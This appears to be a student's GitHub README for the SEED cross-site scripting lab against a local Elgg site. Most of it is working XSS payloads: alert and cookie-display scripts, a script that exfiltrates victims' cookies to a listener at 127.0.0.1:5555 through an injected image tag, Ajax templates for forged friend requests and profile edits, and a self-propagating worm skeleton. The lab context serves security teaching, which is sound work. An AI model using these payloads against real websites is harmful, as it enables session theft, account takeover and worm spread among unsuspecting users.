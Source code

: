 # cross-site-scripiting-xxs-lab-attack-
here is the detailed git repo of xxs lab attack 
# lab adress 
URL: http://www.xsslabelgg.com
Folder: /var/www/XSS/Elgg/

Task 1: Posting a Malicious Message to Display an Alert Window
# script <script>alert(’This is an attack’);</script>

link of image https://github.com/ghulammohiodin/cross-site-scripiting-xxs-lab-attack-/blob/3c913a3e6df71b8ea67afc9863394568a834c2e2/task%201%20alert.png

script for showing alert
<script type="text/javascript"
src="http://www.loalhost/myscripts.js">
</script>

link of image https://github.com/ghulammohiodin/cross-site-scripiting-xxs-lab-attack-/blob/3c913a3e6df71b8ea67afc9863394568a834c2e2/showing%20attack.png
https://github.com/ghulammohiodin/cross-site-scripiting-xxs-lab-attack-/blob/3c913a3e6df71b8ea67afc9863394568a834c2e2/script%20for%20showing%20alert.png


Task 2: Posting a Malicious Message to Display Cookies
script for showing cookies <script>alert(document.cookie);</script>

link of image https://github.com/ghulammohiodin/cross-site-scripiting-xxs-lab-attack-/blob/3c913a3e6df71b8ea67afc9863394568a834c2e2/script%20for%20cookies.png

 Task 3: Stealing Cookies from the Victim’s Machine
 #script for stealing cookies from victm mechine 
 <script>document.write(’<img src=http://127.0.0.1:5555?c=’
+ escape(document.cookie) + ’ >’);
</script>
 image for scripting of stealling cookies from victom
 https://github.com/ghulammohiodin/cross-site-scripiting-xxs-lab-attack-/blob/3c913a3e6df71b8ea67afc9863394568a834c2e2/script%20for%20stealing%20cookies.png
 
 Task 4: Becoming the Victim’s Friend
 
 
 image for becoming victoms friend 
 https://github.com/ghulammohiodin/cross-site-scripiting-xxs-lab-attack-/blob/3c913a3e6df71b8ea67afc9863394568a834c2e2/add%20friends%20to%20aice.png
 
 
 script for becoming victoms friend 
 <script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token; ➁
//Construct the HTTP request to add Samy as a friend.
var sendurl=...; //FILL IN
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET",sendurl,true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
Ajax.send();
}
</script>

Task 5: Modifying the Victim’s Profile
#script for modifiying victoms profile 

<script type="text/javascript">
window.onload = function(){
//JavaScript code to access user name, user guid, Time Stamp __elgg_ts
//and Security Token __elgg_token
var userName=elgg.session.user.name;
var guid="&guid="+elgg.session.user.guid;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the content of your url.
var content=...; //FILL IN
  var samyGuid=...; //FILL IN
if(elgg.session.user.guid!=samyGuid) ➀
{
//Create and send Ajax request to modify profile
var Ajax=null;
Ajax=new XMLHttpRequest();
Ajax.open("POST",sendurl,true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Content-Type",
"application/x-www-form-urlencoded");
Ajax.send(content);
}
}
</script>

https://github.com/ghulammohiodin/cross-site-scripiting-xxs-lab-attack-/blob/3c913a3e6df71b8ea67afc9863394568a834c2e2/editing%20friends%20profile.png


Task 6: Writing a Self-Propagating XSS Worm

# link approach 
<script type="text/javascript" src="localhost.com/xss_worm.js">
</script>

# Dom approach
<script id=worm>
var headerTag = "<script id=\"worm\" type=\"text/javascript\">"; ➀
var jsCode = document.getElementById("worm").innerHTML; ➁
var tailTag = "</" + "script>"; ➂
var wormCode = encodeURIComponent(headerTag + jsCode + tailTag); ➃
alert(jsCode);
</script>

 
 
 
 
 





